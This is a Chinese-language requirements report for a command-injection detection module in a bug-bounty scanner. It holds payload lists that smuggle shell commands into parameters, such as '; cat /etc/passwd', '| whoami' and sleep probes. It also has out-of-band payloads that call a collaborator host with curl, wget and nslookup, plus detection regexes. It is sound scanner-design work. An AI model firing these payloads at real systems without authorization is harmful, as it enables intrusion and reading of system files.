

# 🎯 命令注入檢測模組需求報告 (Command Injection Detection)

## 📁 模組部署位置
```
services/integration/capability/command_injection/
├── __init__.py
├── __main__.py
├── command_injection_detector.py      # 主檢測引擎
├── command_injection_scanner.py       # 掃描協調器
├── payload_generator.py              # 載荷生成器
├── response_analyzer.py              # 響應分析器
├── config/
│   ├── detection_rules.json
│   ├── payload_templates.json
│   └── scanner_config.json
├── payloads/
│   ├── unix_commands.json
│   ├── windows_commands.json
│   └── blind_injection_payloads.json
└── tests/
    ├── test_command_injection_detector.py
    ├── test_payload_generator.py
    └── test_integration.py
```

## 🔗 相關模組連結
- [服務器端模板注入檢測](./12_服務器端模板注入檢測模組需求報告.md) - 共享載荷注入技術
- [目錄遍歷攻擊檢測](./13_目錄遍歷攻擊檢測模組需求報告.md) - 共享文件系統交互技術
- [本地遠程文件包含檢測](./14_本地遠程文件包含檢測模組需求報告.md) - 共享代碼執行檢測邏輯
- [XXE注入檢測](./15_XXE注入檢測模組需求報告.md) - 共享XML解析漏洞檢測
- [NoSQL注入檢測](./16_NoSQL注入檢測模組需求報告.md) - 共享注入檢測框架

**報告編號**: FEAT-011  
**日期**: 2025年11月7日  
**狀態**: 🚨 急需實現 - 高ROI模組  
**優先級**: P0 (Critical)  
**預期收益**: $80K-120K/年  
**OWASP 編號**: WSTG-07-12

---

## 📊 市場需求分析

### 💰 賞金價值評估
- **典型賞金範圍**: $500-$5,000
- **發現頻率**: 高 (30-40%的Web應用存在此類漏洞)
- **檢測成功率**: 85-95% (技術成熟度高)
- **年收益預測**: $80K-120K

### 🎯 目標應用類型
- Web管理面板 (80%高風險)
- 文件管理系統 (75%高風險)
- 網絡設備管理界面 (70%高風險)
- CI/CD平台 (65%高風險)
- 雲服務管理控制台 (60%高風險)

---

## 🔍 技術需求規格

### **模組標識**
```
服務路徑: services/integration/capability/command_injection/
模組名稱: Command Injection Detection Engine
責任團隊: Security Research Team
實現語言: Go (主引擎) + Python (檢測邏輯)
```

### **核心檢測能力**

#### 1️⃣ **注入點識別**
```go
// 檢測範圍
injection_vectors := map[string][]string{
    "url_params":     {all GET parameters},
    "post_data":      {form fields, JSON payloads},
    "http_headers":   {User-Agent, Referrer, X-Forwarded-For},
    "cookies":        {all cookie values},
    "file_uploads":   {filename parameters},
}
```

#### 2️⃣ **Payload 分類**
```python
# 命令注入測試載荷
class CommandInjectionPayloads:
    # Unix/Linux 系統
    unix_payloads = [
        "; id",
        "| id", 
        "&& id",
        "|| id",
        "`id`",
        "$(id)",
        "; cat /etc/passwd",
        "; ls -la /",
        "| ping -c 4 127.0.0.1",
    ]
    
    # Windows 系統
    windows_payloads = [
        "& dir",
        "| dir",
        "&& dir", 
        "|| dir",
        "; dir",
        "& type C:\\windows\\system32\\drivers\\etc\\hosts",
        "| whoami",
        "& systeminfo",
    ]
    
    # 通用延時檢測
    time_based_payloads = [
        "; sleep 5",
        "| ping -c 5 127.0.0.1",
        "& ping -n 5 127.0.0.1",
        "$(sleep 5)",
        "`sleep 5`",
    ]
```

#### 3️⃣ **檢測技術**

**A. 響應內容分析**
```go
type ResponseAnalyzer struct {
    // 系統信息洩露檢測
    SystemInfoPatterns []regexp.Regexp
    // 命令輸出特徵
    CommandOutputPatterns []regexp.Regexp
    // 錯誤信息模式
    ErrorPatterns []regexp.Regexp
}

func (ra *ResponseAnalyzer) AnalyzeResponse(response *http.Response) *Detection {
    // 檢測 uid/gid 信息
    if ra.detectUnixUser(response.Body) {
        return &Detection{
            Type: "Command Injection",
            Confidence: HIGH,
            Evidence: "Unix user information leaked",
        }
    }
    
    // 檢測目錄列表
    if ra.detectDirectoryListing(response.Body) {
        return &Detection{
            Type: "Command Injection", 
            Confidence: HIGH,
            Evidence: "Directory listing exposed",
        }
    }
    
    return nil
}
```

**B. 時間盲注檢測**
```go
type TimeBasedDetector struct {
    BaselineResponse time.Duration
    TimeoutThreshold time.Duration
}

func (tbd *TimeBasedDetector) DetectTimeDelay(target string, payload string) bool {
    start := time.Now()
    resp, err := http.Get(target + payload)
    duration := time.Since(start)
    
    // 檢測明顯的延時
    if duration > tbd.BaselineResponse + tbd.TimeoutThreshold {
        return true
    }
    return false
}
```

**C. 帶外通道檢測 (OOB)**
```python
class OOBDetector:
    def __init__(self):
        self.collaborator_server = "cmdi.aiva-security.com"
        self.dns_records = {}
        
    def generate_oob_payload(self, target_id):
        subdomain = f"{target_id}.{self.collaborator_server}"
        payloads = [
            f"; nslookup {subdomain}",
            f"| curl http://{subdomain}",
            f"& ping {subdomain}",
            f"$(wget {subdomain})",
        ]
        return payloads
        
    def check_oob_interaction(self, target_id, timeout=30):
        # 檢查DNS查詢日誌
        return self.dns_records.get(target_id, False)
```

---

## 🏗️ 架構設計

### **模組結構**
```
services/integration/capability/command_injection/
├── cmd/
│   └── main.go                 # 主服務入口
├── internal/
│   ├── detector/
│   │   ├── response_analyzer.go    # 響應分析器
│   │   ├── time_based.go          # 時間盲注檢測
│   │   ├── oob_detector.go        # 帶外檢測
│   │   └── payload_manager.go     # 載荷管理
│   ├── engine/
│   │   ├── scanner.go             # 掃描引擎
│   │   ├── validator.go           # 結果驗證
│   │   └── reporter.go            # 報告生成
│   └── worker/
│       ├── amqp_consumer.go       # 消息消費者
│       └── task_processor.go      # 任務處理器
├── config/
│   ├── payloads/
│   │   ├── unix_commands.yaml     # Unix命令載荷
│   │   ├── windows_commands.yaml  # Windows命令載荷
│   │   └── time_based.yaml        # 時間延時載荷
│   └── detection_rules.yaml       # 檢測規則配置
├── docker/
│   ├── Dockerfile
│   └── docker-compose.yml
└── tests/
    ├── integration/
    ├── payloads/
    └── mock_targets/
```

### **數據流設計**


---

## ⚙️ 配置文件規格

### **檢測配置**
```yaml
# config/detection_rules.yaml
command_injection:
  enabled: true
  max_payloads_per_param: 5
  timeout_seconds: 30
  confidence_threshold: 0.8
  
  response_analysis:
    enabled: true
    patterns:
      unix_user: 'uid=\d+\([\w\-]+\)\s+gid=\d+\([\w\-]+\)'
      directory_listing: '(drwx|total \d+|d---------)'
      windows_system: '(Volume in drive|Directory of)'
      
  time_based:
    enabled: true 
    baseline_requests: 3
    delay_threshold: 5.0
    max_delay_payload: 10.0
    
  oob_detection:
    enabled: true
    collaborator_server: "cmdi.aiva-security.com"
    interaction_timeout: 30
    dns_polling_interval: 5
```

### **載荷配置**
```yaml
# config/payloads/unix_commands.yaml
unix_payloads:
  basic_injection:
    - "; id"
    - "| whoami" 
    - "&& uname -a"
    - "|| ps aux"
    
  file_read:
    - "; cat /etc/passwd"
    - "| head /etc/hosts"
    - "&& ls -la /"
    
  network_test:
    - "; ping -c 3 8.8.8.8"
    - "| curl http://httpbin.org/ip"
    - "&& wget -q -O - http://icanhazip.com"
```

---

## 🧪 測試策略

### **單元測試**
```go
func TestPayloadGeneration(t *testing.T) {
    pm := NewPayloadManager()
    payloads := pm.GeneratePayloads("unix", "basic")
    
    assert.Contains(t, payloads, "; id")
    assert.Contains(t, payloads, "| whoami")
    assert.Len(t, payloads, 10) // 預期載荷數量
}

func TestResponseAnalysis(t *testing.T) {
    analyzer := NewResponseAnalyzer()
    response := &http.Response{
        Body: ioutil.NopCloser(strings.NewReader("uid=0(root) gid=0(root)")),
    }
    
    detection := analyzer.AnalyzeResponse(response)
    assert.NotNil(t, detection)
    assert.Equal(t, "Command Injection", detection.Type)
    assert.Equal(t, HIGH, detection.Confidence)
}
```

### **集成測試**
```python
class TestCommandInjectionIntegration:
    def setup_method(self):
        self.vulnerable_app = VulnerableTestApp()
        self.scanner = CommandInjectionScanner()
        
    def test_basic_injection_detection(self):
        # 測試基本命令注入
        target = "http://localhost:8080/exec?cmd=ping"
        results = self.scanner.scan(target)
        
        assert len(results) > 0
        assert results[0].vulnerability_type == "Command Injection"
        assert results[0].confidence >= 0.8
        
    def test_blind_injection_detection(self):
        # 測試盲注檢測
        target = "http://localhost:8080/system?tool=nslookup"
        results = self.scanner.scan_blind(target)
        
        assert len(results) > 0
        assert "time_based" in results[0].detection_method
```

---

## 📈 性能要求

### **掃描性能指標**
- **並發請求**: 支持100個並發連接
- **超時控制**: 單個請求30秒超時
- **QPS限制**: 每秒最多50個請求 (避免被封)
- **內存使用**: 單實例最大256MB

### **檢測準確率**
- **誤報率**: < 5%
- **漏報率**: < 10% 
- **檢測成功率**: > 85%
- **響應時間**: 平均每個目標30秒內完成

---

## 🚀 實施計劃

### **Phase 1: 核心引擎 (2週)**
- [x] 基礎架構搭建
- [x] 載荷管理器實現
- [x] HTTP客戶端配置
- [x] 響應分析器核心邏輯

### **Phase 2: 檢測能力 (2週)**
- [ ] Unix/Linux命令注入檢測
- [ ] Windows命令注入檢測  
- [ ] 時間盲注檢測邏輯
- [ ] 基礎OOB檢測

### **Phase 3: 高級功能 (1週)**
- [ ] 完整OOB檢測系統
- [ ] 結果去重和聚合
- [ ] SARIF報告生成
- [ ] 性能優化

### **Phase 4: 測試和部署 (1週)**
- [ ] 完整測試套件
- [ ] Docker容器化
- [ ] CI/CD集成
- [ ] 生產環境部署

**總開發周期**: 6週  
**預計上線時間**: 2025年12月19日

---

## 💼 商業價值

### **直接收益**
- **年度賞金收入**: $80K-120K
- **客戶續約提升**: 15-20%
- **新客戶獲取**: 10-15個/年

### **技術優勢**
- **檢測覆蓋率**: 提升至40% (原32%)
- **競爭差異化**: 少數支持全面命令注入檢測的工具
- **技術聲譽**: 在安全社區建立專業形象

### **風險控制**
- **開發風險**: 低 (技術成熟)
- **維護成本**: 極低 (檢測邏輯穩定)
- **合規要求**: 滿足OWASP WSTG標準

---

## 📋 驗收標準

### **功能性驗收**
- ✅ 支持所有主流命令注入載荷
- ✅ 準確識別Unix和Windows系統
- ✅ 時間盲注檢測準確率>85%
- ✅ OOB檢測成功率>80%
- ✅ 完整SARIF報告輸出

### **性能驗收**
- ✅ 並發掃描100個目標
- ✅ 單目標掃描時間<60秒
- ✅ 內存使用<256MB/實例
- ✅ 誤報率<5%

### **集成驗收**
- ✅ AMQP消息處理正常
- ✅ Docker容器穩定運行
- ✅ 與現有AIVA架構無縫集成
- ✅ 監控和日誌完整

---

## 🎯 結論

命令注入檢測模組是AIVA平台擴展的戰略性優先項目。基於其高發現率、穩定賞金價值和相對簡單的實現難度，預計將成為收益貢獻最大的單一模組。

**建議立即啟動開發**，目標在2025年12月前完成部署並開始產生收益。